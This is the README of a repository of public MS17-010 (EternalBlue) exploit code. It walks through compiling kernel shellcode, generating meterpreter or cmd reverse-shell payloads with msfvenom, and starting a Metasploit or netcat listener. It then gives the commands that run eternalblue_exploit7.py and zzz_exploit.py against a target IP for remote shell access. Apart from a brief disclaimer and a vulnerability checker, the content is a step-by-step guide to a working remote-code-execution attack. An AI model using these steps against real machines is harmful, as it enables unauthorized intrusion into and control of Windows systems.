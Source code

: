 # MS17-010 Exploit Code

This is public exploit code can be used to test if your windows-machines are vulnerable.
If they are, you should patch them immediateley, as malware out there is active exploiting this vulnerability

## Dislcaimer:
Test only systems you own or/and have explicit permission to (like in pentests or IT-security-lab-environment).
If you use this, you are fully rensponsible for everything that results.
Including but not limited to:
- malfunctioning services
- financial damages
- getting fired
...

## About:
This generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler or netcat as listener.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit (which could be needed in any situation you don't have access to metasploit or its use is restricted).
Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`

## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## Test:
If you have completed the USAGE steps, now you're ready to Test the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion. 

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64) 

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
